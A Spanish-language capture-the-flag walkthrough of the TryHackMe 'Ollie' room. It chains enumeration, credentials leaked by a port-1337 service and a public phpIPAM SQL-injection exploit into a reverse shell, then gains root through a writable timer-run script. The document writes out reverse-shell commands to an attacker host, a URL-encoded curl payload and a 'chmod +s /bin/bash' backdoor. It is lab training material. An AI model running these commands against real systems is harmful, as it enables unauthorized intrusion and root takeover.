




# Ollie

Esta sala implicará explotar un CVE de inyección SQL para obtener un shell inverso en el sistema de destino y luego explotar una configuración incorrecta del temporizador del sistema para escalar a la raíz. ¡Entremos en ello!


* [Ollie](https://tryhackme.com/room/ollie)
* Created by  [0day](https://tryhackme.com/p/0day)

## Walkthrough

***

### Enumeración

Empezamos a enumerar los puertos con la herramienta de `nmap`

```php
❯ nmap -p- --open --min-rate 1000 -vvv -Pn -n 10.10.178.225 -oG allportsScan
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack
80/tcp   open  http    syn-ack
1337/tcp open  waste   syn-ack
```

Encontramos 3 puertos abiertos que son el `22`, `80` y `1337`

Una vez enumerado los puertos abiertos, el siguiente paso que vamos a realizar es enumerar los servicios y versiones que se encuentran en cada uno de los puertos abiertos de la maquina victima.

```php
❯ nmap -p22,80,1337 -sC -sV -Pn -vvvv -n 10.10.178.225 -oN servicesScan

PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b7:1b:a8:f8:8c:8a:4a:53:55:c0:2e:89:01:f2:56:69 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDP5+l/iCTR0Sqa4q0dIntXiVyRE5hsnPV5UfG4D+sQKeM4XoG7mzycPzJxn9WkONCwgmLWyFD1wHOnexqtxEOoyCrHhP2xGz+5sOsJ7RbpA0KL/CAUKs2aCtonKUwg5FEhOjUy945M0e/DmstbOYx8od6603eb4TytHfxQHPPiWBBRCmg6e+5UjcHLSOqDEzXkDOmmLieiE008fEVrNAmF2J+I4XPJI7Usaf3IzpnaFm3Ca9YvNAr4t8gpDST2uNuRWA9NCMspBFEj/5YQfjOnYx2cSSZHUP3lK8tiwc/RWSk7OBTXYOBncyV4lw8OiyJ1fOhr/2gXTXE/tWQvu1zKWYYafMKRdsH6nuE5nZ0CK3pLHe/nUgIsVPl7sJ3QlqJF7Wd5OmY3e4Py7movqFm/HmW+zjwsXGHnzENC47N+RxV0XTYCxbKzTAZDo5gLMxmsbXWnQmU5GMk0e9sh7HHybmWWkKKYJiOp+3yM9vTPXPiNXBeJmvWa01hoAAi+3OU=
|   256 4e:27:43:b6:f4:54:f9:18:d0:38:da:cd:76:9b:85:48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFL/P1VyyCYVY2aUZcXTLmHkiXGo4/KdJptRP7Wioy78Sb/W/bKDAq3Yl6a6RQW7KlGSbZ84who5gWwVMTSTt2U=
|   256 14:82:ca:bb:04:e5:01:83:9c:d6:54:e9:d1:fa:c4:82 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHmTKDYCCJVK6wx0kZdjLd1YZeLryW/qXfKAfzqN/UHv
80/tcp   open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /immaolllieeboyyy
| http-title: Ollie :: login
|_Requested resource was http://10.10.178.225/index.php?page=login
|_http-favicon: Unknown favicon MD5: 851615F43921F017A297184922B4FBFD
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
1337/tcp open  waste?  syn-ack
| fingerprint-strings: 
|   DNSStatusRequestTCP, GenericLines: 
|     Hey stranger, I'm Ollie, protector of panels, lover of deer antlers.
|     What is your name? What's up, 
|     It's been a while. What are you here for?
|   DNSVersionBindReqTCP: 
|     Hey stranger, I'm Ollie, protector of panels, lover of deer antlers.
|     What is your name? What's up, 
|     version
|     bind
|     It's been a while. What are you here for?
|   GetRequest: 
|     Hey stranger, I'm Ollie, protector of panels, lover of deer antlers.
|     What is your name? What's up, Get / http/1.0
|     It's been a while. What are you here for?
|   HTTPOptions: 
|     Hey stranger, I'm Ollie, protector of panels, lover of deer antlers.
|     What is your name? What's up, Options / http/1.0
|     It's been a while. What are you here for?
|   Help: 
|     Hey stranger, I'm Ollie, protector of panels, lover of deer antlers.
|     What is your name? What's up, Help
|     It's been a while. What are you here for?
|   NULL, RPCCheck: 
|     Hey stranger, I'm Ollie, protector of panels, lover of deer antlers.
|     What is your name?
|   RTSPRequest: 
|     Hey stranger, I'm Ollie, protector of panels, lover of deer antlers.
|     What is your name? What's up, Options / rtsp/1.0
|_    It's been a while. What are you here for?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port1337-TCP:V=7.94%I=7%D=11/18%Time=65596210%P=x86_64-pc-linux-gnu%r(N
SF:ULL,59,"Hey\x20stranger,\x20I'm\x20Ollie,\x20protector\x20of\x20panels,
SF:\x20lover\x20of\x20deer\x20antlers\.\n\nWhat\x20is\x20your\x20name\?\x2
SF:0")%r(GenericLines,93,"Hey\x20stranger,\x20I'm\x20Ollie,\x20protector\x
SF:20of\x20panels,\x20lover\x20of\x20deer\x20antlers\.\n\nWhat\x20is\x20yo
SF:ur\x20name\?\x20What's\x20up,\x20\r\n\r!\x20It's\x20been\x20a\x20while\
SF:.\x20What\x20are\x20you\x20here\x20for\?\x20")%r(GetRequest,A1,"Hey\x20
SF:stranger,\x20I'm\x20Ollie,\x20protector\x20of\x20panels,\x20lover\x20of
SF:\x20deer\x20antlers\.\n\nWhat\x20is\x20your\x20name\?\x20What's\x20up,\
SF:x20Get\x20/\x20http/1\.0\r\n\r!\x20It's\x20been\x20a\x20while\.\x20What
SF:\x20are\x20you\x20here\x20for\?\x20")%r(HTTPOptions,A5,"Hey\x20stranger
SF:,\x20I'm\x20Ollie,\x20protector\x20of\x20panels,\x20lover\x20of\x20deer
SF:\x20antlers\.\n\nWhat\x20is\x20your\x20name\?\x20What's\x20up,\x20Optio
SF:ns\x20/\x20http/1\.0\r\n\r!\x20It's\x20been\x20a\x20while\.\x20What\x20
SF:are\x20you\x20here\x20for\?\x20")%r(RTSPRequest,A5,"Hey\x20stranger,\x2
SF:0I'm\x20Ollie,\x20protector\x20of\x20panels,\x20lover\x20of\x20deer\x20
SF:antlers\.\n\nWhat\x20is\x20your\x20name\?\x20What's\x20up,\x20Options\x
SF:20/\x20rtsp/1\.0\r\n\r!\x20It's\x20been\x20a\x20while\.\x20What\x20are\
SF:x20you\x20here\x20for\?\x20")%r(RPCCheck,59,"Hey\x20stranger,\x20I'm\x2
SF:0Ollie,\x20protector\x20of\x20panels,\x20lover\x20of\x20deer\x20antlers
SF:\.\n\nWhat\x20is\x20your\x20name\?\x20")%r(DNSVersionBindReqTCP,B0,"Hey
SF:\x20stranger,\x20I'm\x20Ollie,\x20protector\x20of\x20panels,\x20lover\x
SF:20of\x20deer\x20antlers\.\n\nWhat\x20is\x20your\x20name\?\x20What's\x20
SF:up,\x20\0\x1e\0\x06\x01\0\0\x01\0\0\0\0\0\0\x07version\x04bind\0\0\x10\
SF:0\x03!\x20It's\x20been\x20a\x20while\.\x20What\x20are\x20you\x20here\x2
SF:0for\?\x20")%r(DNSStatusRequestTCP,9E,"Hey\x20stranger,\x20I'm\x20Ollie
SF:,\x20protector\x20of\x20panels,\x20lover\x20of\x20deer\x20antlers\.\n\n
SF:What\x20is\x20your\x20name\?\x20What's\x20up,\x20\0\x0c\0\0\x10\0\0\0\0
SF:\0\0\0\0\0!\x20It's\x20been\x20a\x20while\.\x20What\x20are\x20you\x20he
SF:re\x20for\?\x20")%r(Help,95,"Hey\x20stranger,\x20I'm\x20Ollie,\x20prote
SF:ctor\x20of\x20panels,\x20lover\x20of\x20deer\x20antlers\.\n\nWhat\x20is
SF:\x20your\x20name\?\x20What's\x20up,\x20Help\r!\x20It's\x20been\x20a\x20
SF:while\.\x20What\x20are\x20you\x20here\x20for\?\x20");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### Puerto 80

Enumerando el servicio web encontraremos un panel de inicio de sesion, en la cual no hay mucho que hacer debido a que no contamos con credenciales validas.



Pasamos a enumerar directorios en el sitio web, en esta caso tu puedes usar la herramienta con la que te sientes mas comodo, yo usare `ffuf`

```php
❯ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fl 1 -u http://10.10.178.225/FUZZ
```

Encontramos algunos directorios de los cuales vamos a ver el contenido en el sitio web



Buscando en los directorios no encotraremos nada interesante para poder explotar la maquina victima.

En el panel de login vamos algo, que es un nombre y una version de un software



### Explotación

Buscamos alguna vulnerabilidad con `searchsploit` y encontramos una vulnerabilidad.

```php
 searchsploit phpIPAM 1.4.5
```


Ahora vamos a traer el exploit a nuestro directorio con `searchsploit -m php/webapps/50963.py`

Ejecutando el [exploit](https://www.exploit-db.com/exploits/50963), encontramos en los parámetros que necesitamos unas credenciales


#### Puerto 1337

Enumerando el puerto `1337`, nos conectamos con `nc` y vemos un servicio que ingresando unos datos nos otorga unas credenciales

```php
❯ nc 10.10.178.225 1337
Hey stranger, I'm Ollie, protector of panels, lover of deer antlers.

What is your name? admin
What's up, Admin! It's been a while. What are you here for? password
Ya' know what? Admin. If you can answer a question about me, I might have something for you.

What breed of dog am I? I'll make it a multiple choice question to keep it easy: Bulldog, Husky, Duck or Wolf? Bulldog
You are correct! Let me confer with my trusted colleagues; Benny, Baxter and Connie...
Please hold on a minute
Ok, I'm back.
After a lengthy discussion, we've come to the conclusion that you are the right person for the job.Here are the credentials for our administration panel.

                    Username: admin
                
                    Password: OllieUnixMontgomery!

PS: Good luck and next time bring some treats!
```

Haciendo uso de las credenciales que nos proporciono, ejecutaremos el exploit.

```python
❯ python3 phpIPAM.py -url http://10.10.178.225 -usr admin -pwd 'OllieUnixMontgomery!' -cmd 'bash -i &>/dev/tcp/[IP-ATTACKER]]/443 <&1'
```


Podemos ejecutar comandos con este exploit, que subió un `evil.php`. Esta vulnerabilidad hace uso de una inyección sql que se puede ver realizar ingresando las credenciales que encontramos en el panel de inicio de sesión.

Haciendo uso de `curl` lanzaremos nuestra revershell, hacer una petición con curl realizaremos un `url encode` a los espacios y caracteres especiales con el fin de no tener problemas al realizar la petición.

Podemos realizarlo de manera manual o haciendo uso de alguna herramienta en local o en online, en este caso yo hare uso de un sitio web que es [urlencoder](https://www.urlencoder.org/)

Teniendo nuestra revershell, vamos a realizar el urlencode

```php
bash -c 'exec bash -i &>/dev/tcp/[IP-ATTACKER]]/443 <&1'
```

Nos quedaría de la siguiente manera:

```php
❯ curl -s http://10.10.178.225/evil.php?cmd=bash%20-c%20%27exec%20bash%20-i%20%26%3E%2Fdev%2Ftcp%2F[IP-ATTACKER]]%2F443%20%3C%261%27
```

Antes de realizar la petición, debemos de ponernos a la escucha con `ncat`

### Escalada de privilegios

#### Usuario : www-data



Enumerando no encontraremos mucho, pero antes recordamos que teníamos credenciales. Haciendo uso de las credenciales podemos escalar privilegios al usuario `ollie`

#### Usuario: ollie

```php
ollie: OllieUnixMontgomery!
```


Después de estar enumerando durante mucho tiempo, y casi rendirnos podremos encontrar un comando que se ejecuta cada 3 o 5 minutos. El codigo que use para enumerar los procesos que se ejecutan:

```php
#!/bin/bash

old_process="$(ps -eo command)"

while true;do
      new_process="$(ps -eo command)"
      diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "command|procmon|kworker"
      old_process=$new_process
done

```

El comando que se ejecuta es `/bin/bash /usr/feedme`


Podemos ver que tenemos permisos de escritura, así que podemos modificarlo para poder escalar privilegios.

```php
ollie@hackerdog:/tmp/tmp.CoH0QsXqRo$ ls -la /usr/bin/feedme
-rwxrw-r-- 1 root ollie 30 Feb 12  2022 /usr/bin/feedme
```

El contenido del fichero que ejecuta:

```php
ollie@hackerdog:/tmp/tmp.CoH0QsXqRo$ cat /usr/bin/feedme
#!/bin/bash

# This is weird?
```

En caso nuestro cambiaremos los permisos de la `/bin/bash` a SUID para elevar nuestros privilegios con el comando `/bin/bash -p`

```php
 echo 'chmod +s /bin/bash' >> /usr/bin/feedme
```

Luego de unos minutos veremos que `/bin/bash` es SUID


#### Usuario : root

Ejecutando el comendo `bash -p` podemos cambiar de usuario a `root`, por lo que podemos ejecutar comando de manera privilegiada.


¡VAMOS!

Happy hacking :)
